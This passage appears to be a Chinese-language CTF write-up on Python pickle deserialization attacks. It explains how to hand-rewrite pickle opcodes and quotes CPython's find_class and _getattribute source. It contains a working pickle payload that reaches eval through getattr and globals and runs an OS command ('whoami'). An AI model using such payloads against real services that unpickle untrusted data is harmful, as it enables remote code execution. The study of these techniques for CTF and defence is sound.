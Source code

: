 然后手搓，在调用callable前添加MARK即`(`，去掉`t`和调用`t`用到的MARK

也就是`[callable] [tuple] R===>MARK [callable] [args...] o`

```
b'''cbuiltins\ngetattr\np0\n0cbuiltins\ndict\np1\n0(g0\ng1\nS'get'\nop2\n0cbuiltins\nglobals\np3\n0(g3\nop4\n0(g2\ng4\nS'__builtins__'\nop5\n0(g0\ng5\nS'eval'\nop6\n0(g6\nS'__import__("os").system("whoami")'\no.'''
```

可以看下区别

![image-20211024165337816](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211024165337816.png)

修改都是一对一对的，**总结一下方法就是`0gx`要变为`0(gx`，`(gx`要变为`gx` ，`tR`换成`o`**

参考：[wp](https://miaotony.xyz/2021/08/07/CTF_2021dianfengjike/#toc-heading-6)

{{% /spoiler %}}

### -->>使用`_getattribute()`&`load_obj()`&`load_inst()`实现任意文件读取

- `find_class()`

  - ```python
    def find_class(self, module, name):
        # Subclasses may override this.
        sys.audit('pickle.find_class', module, name)
        if self.proto < 3 and self.fix_imports:
            if (module, name) in _compat_pickle.NAME_MAPPING:
                module, name = _compat_pickle.NAME_MAPPING[(module, name)]
            elif module in _compat_pickle.IMPORT_MAPPING:
                module = _compat_pickle.IMPORT_MAPPING[module]
        __import__(module, level=0)
        if self.proto >= 4:
            return _getattribute(sys.modules[module], name)[0]
        else:
            return getattr(sys.modules[module], name)
    ```

- `_getattribute()`

  - ```python
    def _getattribute(obj, name):
        for subpath in name.split('.'):
            if subpath == '<locals>':
                raise AttributeError("Can't get local attribute {!r} on {!r}"
                                     .format(name, obj))
            try:
                parent = obj
                obj = getattr(obj, subpath)
            except AttributeError:
                raise AttributeError("Can't get attribute {!r} on {!r}"
                                     .format(name, obj)) from None
        return obj, parent
    ```
